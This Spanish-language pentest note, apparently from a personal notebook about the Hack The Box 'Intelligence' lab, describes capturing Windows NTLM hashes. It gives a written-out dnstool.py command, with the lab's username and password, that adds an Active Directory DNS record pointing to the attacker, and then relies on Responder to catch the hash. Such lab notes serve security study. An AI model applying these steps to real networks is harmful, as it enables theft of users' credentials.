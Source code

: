 
## DESCRIPTION

Si tenemos un progroama que ejecuta una llamada una llamada a una web que necesita resolución de nombre. Entonces si tenemos un usuario con privilegios podemos añadir un record DNS usando LDAP para que nos llegue la llamada a nuestro servidor y asi interceptar el hash.

#### Mas información
* https://0xdf.gitlab.io/2021/11/27/htb-intelligence.html#smb-as-tedgraves

## EXPLOITATION

1. Si descubrimos qeu hay algun programa, o tarea programada que ejecuta una llamada a un nombre web y usa el login del Windows normal, entonces podemos añadir un entrada en la resolución de nombres de kerberos para que nos llegue a nosotros el hash del usuario.
Ejemplo código:

![[Pasted image 20230305154355.png]]
Vemos que:
- Coge los DNS record que empiecen por el nombre web*
- Hace una peticion a ese recurso → Podriamos conseguir el hash de ese usuario

2. Usamos  dnstool.py PARA → Add/modify/delete Active Directory Integrated DNS records via LDAP (el usuario tiene que tener permisos).

	Herramienta: DNSTOOL https://github.com/dirkjanm/krbrelayx.git

```
#Ejemplo:
python3 dnstool.py -u 'intelligence\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --action add --record web-test --data 10.10.14.10 --type A 10.10.10.248
```

![[Pasted image 20230305155550.png]]

![[Pasted image 20230305155402.png]]

3. Nos ponemos a la escucha usando Responder.

![[Pasted image 20230305155432.png]]

**!!NOTA IMPORTANTE!!** 
* Utilizar python2
* NOTA SI LO QUE ESCUCHAMOS EN UN SERVIDOR HTTP → TENEMOS QUE PONERLO EN EL RESPONDER.CONF

![[Pasted image 20230305155505.png]]

4. Despues de un tiempo obtenemos los hashes.

## MACHINES

* Hack The Box: Intelligence
